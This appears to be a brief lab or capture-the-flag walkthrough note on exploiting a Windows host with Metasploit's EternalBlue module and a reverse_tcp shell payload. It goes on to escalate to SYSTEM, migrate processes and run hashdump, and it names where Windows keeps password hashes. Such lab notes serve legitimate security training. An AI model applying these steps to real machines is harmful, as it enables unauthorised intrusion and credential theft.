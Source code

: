 ### [nmap.init](./nmap.init)

### Metersploit
- `exploit/windows/smb/ms17_010_eternalblue`
	- payload - `windows/x64/shell/reverse_tcp`
- escalate
	- `post/multi/manage/shell_to_meterpreter`
		- Will get `NT AUTHORITY\SYSTEM` if ran successfully, then

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'.
This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so.

### "the location where passwords are stored within Windows"
1. C:\windows\system32\config\SAM (Registry: HKLM/SAM)
2. System memory

### "an excellent location to loot"
- Users